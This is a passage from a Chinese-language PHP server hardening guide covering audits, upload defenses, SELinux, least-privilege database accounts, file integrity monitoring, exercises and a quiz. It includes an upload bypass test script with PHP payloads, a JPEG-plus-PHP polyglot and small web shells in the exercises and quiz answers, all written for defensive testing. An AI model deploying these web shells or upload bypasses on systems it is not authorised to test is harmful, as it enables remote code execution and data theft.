    [ "$PERM" = "700" ] && pass "session 目錄權限 700" || warn "session 目錄權限 $PERM（建議 700）"
}

echo -e "\n【錯誤處理】"
[ "$(g 'ini.log_errors')" = "1" ] && pass "log_errors" || fail "log_errors 未開"
[ "$(g 'ini.zend.exception_ignore_args')" = "1" ] && pass "exception_ignore_args（防密碼進日誌）" \
                                                  || warn "exception_ignore_args 未開"

echo -e "\n【擴充】"
[ "$(g 'ext.xdebug')" = "no" ] && pass "沒有 Xdebug" || fail "★★ 正式環境有 Xdebug"

echo -e "\n【★ 從外部驗證】"
for p in /.env /.git/config /composer.json /vendor/autoload.php \
         /phpinfo.php /info.php /storage/logs/laravel.log; do
    code=$(curl -sk -o /dev/null -w '%{http_code}' -m 5 "$SCHEME://$D$p" 2>/dev/null)
    [ "$code" = "200" ] && fail "$p 可以下載"
done
pass "敏感檔案無法存取"

echo -e "\n【★★ 上傳目錄執行測試】"
for p in /uploads/test.php /storage/test.php /uploads/img.jpg/x.php /index.php/x.php; do
    code=$(curl -sk -o /dev/null -w '%{http_code}' -m 5 "$SCHEME://$D$p" 2>/dev/null)
    [ "$code" = "200" ] && fail "$p 回傳 200【可能可執行】"
done
pass "上傳目錄檢查完成"

echo -e "\n【★ 檔案權限】"
if [ -d /var/www ]; then
    W=$(sudo find /var/www -maxdepth 4 -type d -writable -user "$(g user)" 2>/dev/null | \
        grep -vE '/(storage|cache|tmp|uploads|logs)' | head -5)
    [ -n "$W" ] && { echo "$W" | sed 's/^/    ⚠ PHP 可寫：/'; WARN=$((WARN+1)); } \
                || pass "程式碼目錄 PHP 不可寫"
    ENV=$(sudo find /var/www -name '.env' 2>/dev/null | head -3)
    for e in $ENV; do
        PERM=$(stat -c '%a' "$e")
        [ "$PERM" -le 600 ] 2>/dev/null && pass ".env 權限 $PERM：$e" \
                                        || fail ".env 權限 $PERM 太鬆：$e"
    done
fi

echo -e "\n【★ 站台間隔離】"
U=$(grep -h '^\s*user\s*=' /etc/php/*/fpm/pool.d/*.conf /etc/php-fpm.d/*.conf 2>/dev/null | \
    grep -oP '=\s*\K\S+' | sort -u)
N=$(echo "$U" | grep -c .)
echo "  PHP 執行身分：$(echo "$U" | tr '\n' ' ')（$N 個）"
[ "$N" -gt 1 ] && pass "有多個執行身分（站台隔離）" \
               || warn "所有站台共用同一個身分（一站淪陷=全部淪陷）"

echo -e "\n═══════ 結果 ═══════"
printf '  失敗 \033[31m%d\033[0m 項，警告 \033[33m%d\033[0m 項\n' "$FAIL" "$WARN"
exit $FAIL
```

### 上傳功能的滲透測試

```bash
#!/usr/bin/env bash
# 測試上傳功能是否有防護（★ 只對自己的系統執行）
URL="${1:?用法: $0 <upload-url> [cookie]}"
COOKIE="${2:-}"
T=$(mktemp -d); trap 'rm -rf "$T"' EXIT

echo "═══ 上傳防護測試 ═══"
echo '<?php echo "PWNED-".php_sapi_name(); ?>' > "$T/payload"

try() {
    local name="$1" type="$2" desc="$3"
    cp "$T/payload" "$T/$name"
    R=$(curl -sk -m 15 ${COOKIE:+-b "$COOKIE"} \
        -F "file=@$T/$name;type=$type" "$URL" 2>/dev/null)
    # 從回應中找出檔案路徑
    P=$(echo "$R" | grep -oP '(?:https?://[^"]+|/[a-zA-Z0-9/_.-]+)\.(php|jpg|png|phtml|phar)' | head -1)
    if [ -n "$P" ]; then
        [[ "$P" == /* ]] && P="$(echo "$URL" | grep -oP 'https?://[^/]+')$P"
        C=$(curl -sk -m 10 "$P" 2>/dev/null)
        if echo "$C" | grep -q 'PWNED'; then
            printf '  \033[31m✗✗ %-28s 【可以執行！】%s\033[0m\n' "$desc" "$P"
        else
            printf '  \033[32m✓\033[0m %-28s 上傳成功但無法執行\n' "$desc"
        fi
    else
        printf '  \033[32m✓\033[0m %-28s 上傳被拒絕\n' "$desc"
    fi
}

try "shell.php"       "application/x-php"  "純 .php"
try "shell.php.jpg"   "image/jpeg"         "雙重副檔名 .php.jpg"
try "shell.jpg.php"   "image/jpeg"         "雙重副檔名 .jpg.php"
try "shell.PHP"       "image/jpeg"         "大寫 .PHP"
try "shell.PhP"       "image/jpeg"         "混合大小寫 .PhP"
try "shell.phtml"     "image/jpeg"         ".phtml"
try "shell.php5"      "image/jpeg"         ".php5"
try "shell.phar"      "image/jpeg"         ".phar"
try "shell.inc"       "image/jpeg"         ".inc"
try ".htaccess"       "text/plain"         ".htaccess"

# ★ 圖片馬（真的 JPEG + 附加 PHP）
printf '\xFF\xD8\xFF\xE0\x00\x10JFIF\x00\x01' > "$T/img.jpg"
echo '<?php echo "PWNED"; ?>' >> "$T/img.jpg"
try "img.jpg"         "image/jpeg"         "圖片馬（JPEG+PHP）"
cp "$T/img.jpg" "$T/img2.php"
try "img2.php"        "image/jpeg"         "圖片馬改成 .php"

echo
echo "  ★ 所有項目都應該是「上傳被拒絕」或「無法執行」"
echo "  ★ 任何一個「可以執行」都是【嚴重漏洞】"
```

---

## 常見錯誤與排錯

| 現象／問題 | 原因 | 解法 |
| --- | --- | --- |
| **上傳的 jpg 被執行** ★★★ | 沒有三道防線 | Web 伺服器禁執行 + `cgi.fix_pathinfo=0` + `try_files $uri =404` |
| **`open_basedir restriction`** | 路徑不完整 | 加入 `/tmp`、`/usr/share/php`、session、upload_tmp_dir |
| **`open_basedir` 擋不住 `exec()`** ★ | 它只管檔案系統函式 | **必須加 `disable_functions`** |
| 停用函式後應用壞掉 | 停太多 | 找出哪個；**只對該 pool 放寬**，不要全域 |
| **`Process` / 備份功能失敗** | 停用了 `proc_open` | 給 worker pool 單獨放寬 |
| **可以讀到其他站台的 `.env`** ★★ | 沒有獨立 pool / open_basedir | 每站獨立使用者 + pool + open_basedir |
| **PHP 可以寫入程式碼目錄** ★ | 權限太鬆 | 程式碼 `root:app-user 750/640` |
| `.env` 被下載 | DocumentRoot 錯 | `root .../public` |
| **session 被別站讀走** | 共用 `save_path` | 每 pool 獨立 + `chmod 700` |
| `unserialize()` RCE | 反序列化使用者輸入 | 用 JSON；或 `allowed_classes` |
| **`php://filter` 讀出原始碼** | LFI + `include` 使用者輸入 | 白名單；`open_basedir` |
| 命令注入 | `system()` 帶使用者輸入 | `proc_open` 陣列參數；`disable_functions` |
| **SSRF 打到內網** | `file_get_contents($_GET['url'])` | 白名單 + IP 驗證 + 出向防火牆 |
| 上傳 `.htaccess` 繞過 | `AllowOverride All` | **上傳目錄 `AllowOverride None`** |
| SVG 造成 XSS | SVG 中的 `<script>` | `Content-Disposition: attachment` + CSP |

> [!info]- Rocky / AlmaLinux（RHEL 系）對照
> ```bash
> # ★★ SELinux 是重要的額外防線
> $ getenforce
> Enforcing
>
> # 上傳目錄設成【唯讀 context】—— 即使有 web shell 也寫不進去
> $ sudo semanage fcontext -a -t httpd_sys_content_t "/var/www/app/current(/.*)?"
> # 需要寫入的才給 rw
> $ sudo semanage fcontext -a -t httpd_sys_rw_content_t "/var/www/app/shared/storage(/.*)?"
> $ sudo restorecon -Rv /var/www/app
>
> # ★ 最小權限：不需要的布林值一律關著
> $ getsebool -a | grep httpd | grep ' on$'
> httpd_can_network_connect --> on     # 只在需要連 TCP 後端時開
> # 這些【不要】開：
> #   httpd_can_network_connect_db（除非必要）
> #   httpd_enable_cgi
> #   httpd_execmem（除非 JIT 需要）
> #   httpd_unified
>
> # ★ SELinux 能擋住的攻擊（即使 PHP 設定失效）
> #   · web shell 寫入 httpd_sys_content_t 的目錄
> #   · PHP 執行 /bin/bash
> #   · PHP 連到未授權的網路位址
>
> $ sudo ausearch -m avc -ts recent | grep -E 'php-fpm|httpd'
> ```
>
> **不要用 `setenforce 0` 當作排錯的解法** ——
> 那是關掉一整層防護。用 `audit2allow` 產生最小的例外規則。

---

## 安全性注意事項

> [!danger] 假設攻擊者已取得 web shell —— 他能做什麼？
> **用這個清單檢視你的防護**：
> ```
> □ 能讀 /etc/passwd 嗎？          → open_basedir
> □ 能讀其他站台的 .env 嗎？        → 獨立 pool + open_basedir
> □ 能執行 id / bash 嗎？          → disable_functions
> □ 能寫入 public/ 嗎？            → 檔案權限（root:app-user 750）
> □ 能寫入 .htaccess 嗎？          → AllowOverride None
> □ 能連到內網其他主機嗎？          → 出向防火牆
> □ 能連到資料庫嗎？                → 網路隔離 + 最小權限的 DB 帳號
> □ 能修改程式碼嗎？                → 程式碼目錄唯讀
> □ 這些行為會被記錄嗎？            → 日誌 + FIM
> □ 會觸發告警嗎？                  → Wazuh / fail2ban
> ```
>
> **每一個「能」都是一個要補的洞。**
>
> ```bash
> # ★ 實際驗證（用本篇的稽核腳本）
> $ php-security-audit app.example.gov.tw
> ```

> [!warning] 資料庫帳號也要最小權限
> ```sql
> -- ❌ 危險：應用程式用 root 或有 DROP/GRANT 權限的帳號
> GRANT ALL PRIVILEGES ON *.* TO 'app'@'%';
>
> -- ✅ 最小權限
> CREATE USER 'app'@'10.0.5.%' IDENTIFIED BY '強密碼';
> GRANT SELECT, INSERT, UPDATE, DELETE ON myapp.* TO 'app'@'10.0.5.%';
> -- ★ 不給 DROP、ALTER、CREATE、GRANT、FILE
> --   FILE 權限特別危險：SELECT ... INTO OUTFILE 可以寫檔案到伺服器
>
> -- ★ migration 用另一個有 DDL 權限的帳號（只在部署時用）
> CREATE USER 'app_migrate'@'10.0.5.%' IDENTIFIED BY '另一個強密碼';
> GRANT ALL ON myapp.* TO 'app_migrate'@'10.0.5.%';
> ```
> ```ini
> # .env
> DB_USERNAME=app                    # 一般使用
> DB_MIGRATE_USERNAME=app_migrate    # 只在 migration 時
> ```
>
> **這樣即使有 SQL Injection，攻擊者也無法 `DROP TABLE` 或寫檔案。**

> [!tip] 檔案完整性監控（FIM）
> ```bash
> # ★ 用 Wazuh 監控程式碼目錄的異動
> # /var/ossec/etc/ossec.conf
> <syscheck>
>   <directories check_all="yes" realtime="yes" report_changes="yes">
>     /var/www/app/current/public
>   </directories>
>   <directories check_all="yes" realtime="yes">
>     /var/www/app/current/app
>   </directories>
>   <!-- ★ 上傳目錄只監控「新增 .php」 -->
>   <directories check_all="yes" realtime="yes" restrict="\.ph(p\d?|tml|ar)$">
>     /var/data/app-uploads
>   </directories>
> </syscheck>
> ```
>
> **簡易版（cron）**：
> ```bash
> #!/usr/bin/env bash
> # /usr/local/bin/fim-check —— 檢查是否有新的 PHP 檔案
> BASE=/var/www/app/current
> STATE=/var/lib/fim/php-files.txt
> sudo mkdir -p /var/lib/fim
>
> find "$BASE" -name '*.php' -newer "$STATE" 2>/dev/null | \
>   grep -vE '/(storage|bootstrap/cache)/' > /tmp/fim-new.txt
>
> if [ -s /tmp/fim-new.txt ]; then
>     echo "⚠⚠ 發現新增或修改的 PHP 檔案："
>     cat /tmp/fim-new.txt
>     mail -s "【警告】$(hostname) 發現 PHP 檔案異動" admin@example.gov.tw < /tmp/fim-new.txt
> fi
> touch "$STATE"
> ```
> ```bash
> $ sudo tee /etc/cron.d/fim-php >/dev/null <<'EOF'
> */10 * * * * root /usr/local/bin/fim-check
> EOF
> ```
>
> **正常情況下，程式碼目錄只在部署時才會有異動** ——
> 任何非部署時間的異動都值得調查。

---

## 速查表

### 核心四道防線

```ini
; ① ★★ 限制檔案存取
php_admin_value[open_basedir] = /var/www/app/:/var/data/app-uploads/:/tmp/:/usr/share/php/:/var/lib/php/sessions/app/

; ② ★★ 停用系統指令
php_admin_value[disable_functions] = exec,passthru,shell_exec,system,proc_open,popen,pcntl_exec,pcntl_fork,dl,putenv,symlink,link,ini_alter,imap_open

; ③ ★★ 核心設定
php_admin_value[cgi.fix_pathinfo] = 0
php_admin_flag[allow_url_include] = off
php_admin_flag[display_errors] = off
php_admin_value[expose_php] = 0

; ④ ★ 獨立執行身分
user  = app-user
group = app-user
```

```
★ open_basedir 擋不住 exec() → 必須與 disable_functions 一起用
★ 兩者都要用 php_admin_*（不能被 ini_set 覆蓋）
```

### `open_basedir` 必含路徑

```
/var/www/app/                  程式碼（★ 涵蓋 current 與 releases）
/var/data/app-uploads/         上傳
/tmp/                          ★ 暫存（漏掉會出很多錯）
/usr/share/php/                ★ PEAR / 共用函式庫
/var/lib/php/sessions/app/     ★ session
/usr/share/zoneinfo/           時區
```

### `disable_functions` 分類

```
★★ 一定停用：exec passthru shell_exec system proc_open popen pcntl_exec
★  建議停用：pcntl_fork dl putenv symlink link ini_alter imap_open ftp_exec
             proc_nice proc_terminate posix_kill posix_setuid
✗  不要停用：file_get_contents fopen fwrite base64_decode eval

★ 需要 proc_open 的功能（Process、備份、PDF）→ 給【worker pool】單獨放寬
```

### 上傳七道防線

```
① 檢查 $_FILES['x']['error']
② is_uploaded_file()                     確認是 HTTP POST 上傳
③ 檢查大小
④ ★★ finfo 檢查【真實】MIME（不信任 $_FILES['type']）
⑤ ★ 副檔名必須與真實類型相符（白名單）
⑥ ★★ 圖片重新編碼（移除「圖片馬」）
⑦ ★★ 重新命名（random_bytes，不用任何使用者輸入）

★★ 存在 web root 之外 + X-Accel-Redirect 提供下載
```

**若必須放 web root 內**：
```nginx
location ^~ /uploads/ {
    location ~* \.(php|phtml|phar|php\d?|pl|py|sh)$ { deny all; return 404; }
    add_header X-Content-Type-Options "nosniff" always;
    add_header Content-Disposition "attachment" always;
}
```

### 常見漏洞防範

```php
// LFI    → 白名單，不要 include $_GET
// RFI    → allow_url_include = Off
// 反序列化 → json_decode；或 unserialize($x, ['allowed_classes' => false])
// 命令注入 → proc_open(['cmd','arg']) 陣列參數；或用 PHP 擴充
// SSRF   → 白名單網域 + IP 驗證（FILTER_FLAG_NO_PRIV_RANGE）+ 出向防火牆
```

### 檔案權限

```bash
# 程式碼：PHP 不可寫（★ 重要）
sudo chown -R root:app-user /var/www/app/releases
sudo find /var/www/app/releases -type d -exec chmod 750 {} \;
sudo find /var/www/app/releases -type f -exec chmod 640 {} \;

# 只有這些 PHP 可寫
sudo chown -R app-user:app-user /var/www/app/shared/storage /var/data/app-uploads
sudo chmod -R 750 /var/www/app/shared/storage

# ★★ .env
sudo chmod 400 /var/www/app/shared/.env
sudo chown app-user:app-user /var/www/app/shared/.env

# session
sudo chmod 700 /var/lib/php/sessions/app
```

### 「假設已被入侵」檢查清單 ★

```
□ 能讀 /etc/passwd？          → open_basedir
□ 能讀別站的 .env？           → 獨立 pool + open_basedir
□ 能執行 id / bash？          → disable_functions
□ 能寫入 public/？            → 檔案權限 root:app-user 750
□ 能寫 .htaccess？            → AllowOverride None
□ 能連內網 / 資料庫？          → 出向防火牆 + 最小權限 DB 帳號
□ 能修改程式碼？               → 程式碼目錄唯讀
□ 會被記錄與告警？             → 日誌 + FIM（Wazuh）
```

### 驗證

```bash
php-security-audit app.example.gov.tw       # 完整稽核

# 實際滲透測試（★ 從網頁執行）
<?php echo @shell_exec('id') ?: 'BLOCKED';           // 應為 BLOCKED
<?php echo @file_get_contents('/etc/passwd') ? 'READ' : 'BLOCKED';
<?php echo @file_put_contents(__DIR__.'/x.tmp','x') ? 'WRITABLE' : 'READONLY';

# 上傳測試
for n in shell.php shell.php.jpg shell.PHP shell.phtml shell.phar .htaccess; do ... done
```

---

## 練習題

> [!question]- 練習 1：「假設已被入侵」演練
> **★ 在測試環境**
> 1. 在 `public/` 放一個測試用的 shell：
>    ```php
>    <?php echo @shell_exec($_GET['c'] ?? 'id');
>    ```
> 2. **在【沒有任何防護】的環境下測試**：
>    - `?c=id`、`?c=cat /etc/passwd`、`?c=ls /var/www`
>    - `file_get_contents('/var/www/其他站台/.env')`
>    - `file_put_contents('/var/www/app/public/x.php', '<?php ...')`
> 3. **逐一加上防護，每加一項就重測**：
>    open_basedir → disable_functions → 檔案權限 → 獨立 pool → 出向防火牆
> 4. **記錄「每一項防護擋住了什麼」**
> 5. 刪除測試用的 shell

> [!question]- 練習 2：上傳防護滲透測試
> 1. 建立一個「只檢查 `$_FILES['type']`」的上傳功能（**故意做錯**）
> 2. 執行本篇的上傳測試腳本
> 3. **哪些手法成功了？**
> 4. 逐步加上七道防線，每加一道重測一次
> 5. **特別測試「圖片馬」**（真的 JPEG + 附加 PHP）
>    → 加上「重新編碼」後還能執行嗎？
> 6. 改成「存在 web root 之外」→ 重測

> [!question]- 練習 3：`disable_functions` 的取捨
> 1. 對一個真實的 Laravel 專案套用完整的 `disable_functions`
> 2. `php artisan test` → **有測試失敗嗎？是哪些？**
> 3. 測試佇列：`php artisan queue:work --once`
> 4. 測試備份（若有）
> 5. **找出「真正需要的函式」**
> 6. 設計「web pool 嚴格 / worker pool 放寬」的分離架構
> 7. 驗證 web pool 仍然無法執行系統指令

> [!question]- 練習 4：站台間隔離
> 1. 建立兩個站台，**先都用 `www-data`**
> 2. 從站台 A 嘗試：
>    - 讀站台 B 的 `.env`
>    - 讀站台 B 的 session 檔
>    - 寫入站台 B 的目錄
> 3. **三項都成功了嗎？**
> 4. 建立獨立使用者 + 獨立 pool + `open_basedir` + 獨立 session 路徑
> 5. **重測三項**
> 6. 確認**兩個站台功能都正常**（session、上傳、檔案讀寫）

> [!question]- 練習 5：完整稽核與 FIM
> 1. 執行 `php-security-audit`
> 2. **逐項修正到 0 失敗**
> 3. 設定 FIM（Wazuh 或 cron 版本）
> 4. **模擬攻擊**：在 `public/` 新增一個 `.php` 檔案
> 5. **多久之後收到告警？**
> 6. 檢視告警內容是否足以判斷發生了什麼
> 7. 把稽核腳本與 FIM 都排程化

---

## 小測驗

Q1. **`open_basedir` 限制什麼？它「不能」防止什麼**？

Q2. **`open_basedir` 常被遺漏哪些路徑？漏掉的症狀是什麼**？

Q3. **`disable_functions` 中「一定要停用」的五個函式是什麼？哪些「不要停用」**？

Q4. **應用程式需要 `proc_open`（例如備份功能）時，該怎麼處理**？

Q5. **檔案上傳的七道防線是什麼**？

Q6. **為什麼不能信任 `$_FILES['x']['type']`？正確的檢查方式是什麼**？

Q7. **「圖片馬」是什麼？哪一道防線能徹底解決它**？

Q8. **上傳的檔案為什麼最好放在 web root 之外？怎麼提供下載**？

Q9. **「程式碼目錄 PHP 不可寫」為什麼是重要的防線**？

Q10. **假設攻擊者已取得 web shell，你該用哪十個問題檢視防護**？

> [!question]- 測驗答案
> **Q1.** **`open_basedir` 限制「所有 PHP 的檔案系統函式」可以存取的目錄範圍** ——
> `fopen`、`file_get_contents`、`file_put_contents`、`include`、`require`、
> `opendir`、`scandir`、`glob`、`unlink`、`move_uploaded_file` 等。
> 超出範圍會拋出警告並回傳 false。
> **它不能防止 `exec()` 系列** ——
> ```php
> echo shell_exec('cat /etc/passwd');   // ★ open_basedir 完全擋不住
> ```
> 因為 `exec`/`system`/`shell_exec`/`proc_open` 是**把工作交給作業系統的 shell**，
> 完全繞過 PHP 的檔案系統層。
> **所以必須與 `disable_functions` 一起使用**，兩者缺一不可。
>
> **Q2.** **常被遺漏的路徑**：
> **`/tmp`**（暫存檔、上傳暫存、`tempnam()`）、
> **`/usr/share/php`**（PEAR 與共用函式庫）、
> **session 的 `save_path`**、
> **`upload_tmp_dir`**、
> `/usr/share/zoneinfo`（時區資料）。
> **症狀**：錯誤訊息都是
> `open_basedir restriction in effect. File(...) is not within the allowed path(s)`，
> 具體表現為**檔案上傳失敗、`session_start()` 失敗、某些套件 include 失敗**。
> 找出應用實際需要的路徑：
> ```bash
> grep 'open_basedir restriction' /var/log/php/app-error.log | \
>   grep -oP 'File\(\K[^)]+' | sed 's|/[^/]*$||' | sort -u
> ```
>
> **Q3.** **一定要停用的五個（web shell 的核心）**：
> **`exec`、`passthru`、`shell_exec`、`system`、`proc_open`**（加上 `popen`、`pcntl_exec`）。
> **不要停用的**：
> **`file_get_contents`、`fopen`、`fwrite`、`file_put_contents`**（框架大量使用）、
> **`base64_decode`/`base64_encode`**（正常功能，停了會壞很多東西）、
> **`eval`**（它是語言結構不是函式，**根本停不掉**）、
> `phpinfo`（停了也沒差，反正不該放在正式環境）。
> 另外建議停用 `dl`、`putenv`、`symlink`、`link`、`ini_alter`、
> `imap_open`（CVE-2018-19518 可注入指令）、`ftp_exec`。
>
> **Q4.** **不要為了一個功能就全域放寬** ——
> 應該**把需要該函式的工作分到獨立的 pool**：
> ```ini
> ; pool.d/app-web.conf（★ 對外服務，嚴格）
> php_admin_value[disable_functions] = exec,passthru,shell_exec,system,proc_open,popen,...
>
> ; pool.d/app-worker.conf（★ 只給佇列 worker，不對外服務）
> php_admin_value[disable_functions] = exec,passthru,shell_exec,system,popen,dl,putenv
> ;                                    ^^^ 保留 proc_open 給 Symfony Process
> ```
> 因為**佇列 worker 是由 systemd / Supervisor 啟動的 CLI 程序，
> 不接受外部的 HTTP 請求**，攻擊面小得多。
> 對外服務的 web pool 仍然保持最嚴格的設定。
>
> **Q5.** ①**檢查 `$_FILES['x']['error']`**；
> ②**`is_uploaded_file()`** 確認真的是透過 HTTP POST 上傳的；
> ③**檢查大小**；
> ④**★★ 用 `finfo` 檢查「真實」的 MIME type**（不信任 `$_FILES['type']`）；
> ⑤**★ 副檔名必須與真實類型相符**（白名單，不是黑名單）；
> ⑥**★★ 圖片重新編碼**（`imagecreatefromjpeg` + `imagejpeg`，移除「圖片馬」）；
> ⑦**★★ 重新命名**（`bin2hex(random_bytes(16))`，完全不使用任何使用者提供的字串）。
> 加上**存放在 web root 之外**與 `chmod 0640`。
>
> **Q6.** 因為 **`$_FILES['x']['type']` 的值是「瀏覽器送來的 `Content-Type` 標頭」，
> 完全由客戶端控制，可以任意偽造** ——
> 攻擊者用 `curl -F "file=@shell.php;type=image/jpeg"` 就能宣告任何類型。
> **正確方式是用 `finfo` 讀取檔案的實際內容（magic bytes）判斷**：
> ```php
> $finfo = new finfo(FILEINFO_MIME_TYPE);
> $realMime = $finfo->file($file['tmp_name']);
> if (!isset(self::ALLOWED[$realMime])) { throw new RuntimeException(...); }
> ```
> 並且**副檔名必須與真實類型相符**（白名單對照表）。
>
> **Q7.** **「圖片馬」是「一個真的、可以正常顯示的圖片檔，
> 但在檔案尾端（或 EXIF 欄位中）附加了 PHP 程式碼」** ——
> ```bash
> printf '\xFF\xD8\xFF\xE0...' > img.jpg      # 真的 JPEG 標頭
> echo '<?php system($_GET["c"]); ?>' >> img.jpg
> ```
> 它**能通過 `getimagesize()`、`finfo` 的檢查**（因為前面確實是合法的 JPEG），
> 只要能想辦法讓它被當成 PHP 執行（PathInfo 攻擊、`.htaccess`、LFI）就會 RCE。
> **能徹底解決它的是第六道防線：圖片重新編碼** ——
> 用 `imagecreatefromjpeg()` 解析後再 `imagejpeg()` 輸出，
> **只會保留實際的像素資料，任何附加的內容都會被丟棄**。
>
> **Q8.** **因為「不在 web root 內」就不可能被直接請求到，
> 從根本上消除了「上傳的檔案被執行」的可能性** ——
> 不管副檔名檢查有沒有漏洞、不管 Web 伺服器的規則有沒有寫錯、
> 不管 `cgi.fix_pathinfo` 設了什麼，**攻擊者都碰不到那個檔案**。
> **提供下載的方式是 `X-Accel-Redirect`（Nginx）或 `X-Sendfile`（Apache）**：
> ```php
> $this->authorize('view', $file);            // ★ PHP 做權限檢查
> return response('', 200, [
>     'X-Accel-Redirect' => '/protected-files/' . $file->stored_name,
>     'Content-Disposition' => 'attachment; filename="..."',
> ]);
> ```
> ```nginx
> location ^~ /protected-files/ {
>     internal;                                # ★ 只能內部跳轉
>     alias /var/data/app-uploads/;
> }
> ```
> **好處**：權限由 PHP 檢查、實際傳輸由 Nginx 處理（**PHP worker 立刻釋放**）、
> 檔案完全不在 web root 內。
>
> **Q9.** 因為**若 PHP 可以寫入程式碼目錄（特別是 `public/`）**：
> ```
> 攻擊者取得任意檔案寫入漏洞（LFI 寫入、上傳、反序列化）
>   → 直接寫一個 shell.php 到 public/
>     → 【立刻取得 web shell】
> ```
> **若程式碼目錄是唯讀（`root:app-user` `750`/`640`）**：
> ```
> 攻擊者【寫不進去】
>   → 只能寫到 storage/ 與 uploads/
>     → 而這兩個目錄已經禁止執行 PHP
>       → 【任意寫入漏洞無法升級成 RCE】
> ```
> ```bash
> sudo chown -R root:app-user /var/www/app/releases
> sudo find /var/www/app/releases -type d -exec chmod 750 {} \;
> sudo find /var/www/app/releases -type f -exec chmod 640 {} \;
> ```
> 例外是 Laravel 需要寫入 `storage/` 與 `bootstrap/cache/`，單獨開放即可。
>
> **Q10.** ①**能讀 `/etc/passwd` 嗎？** → `open_basedir`；
> ②**能讀其他站台的 `.env` 嗎？** → 獨立 pool + `open_basedir`；
> ③**能執行 `id` / `bash` 嗎？** → `disable_functions`；
> ④**能寫入 `public/` 嗎？** → 檔案權限（`root:app-user 750`）；
> ⑤**能寫入 `.htaccess` 嗎？** → `AllowOverride None`；
> ⑥**能連到內網其他主機嗎？** → 出向防火牆；
> ⑦**能連到資料庫嗎？能 `DROP TABLE` 嗎？** → 網路隔離 + **最小權限的 DB 帳號**
> （不給 `DROP`、`ALTER`、`GRANT`、**`FILE`**）；
> ⑧**能修改程式碼嗎？** → 程式碼目錄唯讀；
> ⑨**這些行為會被記錄嗎？** → 存取日誌 + PHP error log + FIM；
> ⑩**會觸發告警嗎？** → Wazuh / fail2ban / 自製的 FIM cron。
> **每一個「能」都是一個要補的洞。**

---

## 延伸閱讀

- [[060-02-02-09-guide-Nginx-安全設定]] — Web 伺服器層的防護
- [[060-02-03-07-guide-Apache-安全與效能]] — Apache 的對應設定
- [[060-03-01-02-guide-PHP-FPM設定與Pool調校]] — 獨立 pool 與權限隔離
- [[060-03-01-03-guide-PHP-ini重要參數]] — 其他安全參數
- [[090-03-02-guide-應用安全-應用層安全]] — OWASP Top 10
- [[090-04-00-idx-ModSecurity]] — WAF
- [[090-08-04-guide-Wazuh-FIM檔案完整性監控]] — 檔案異動監控
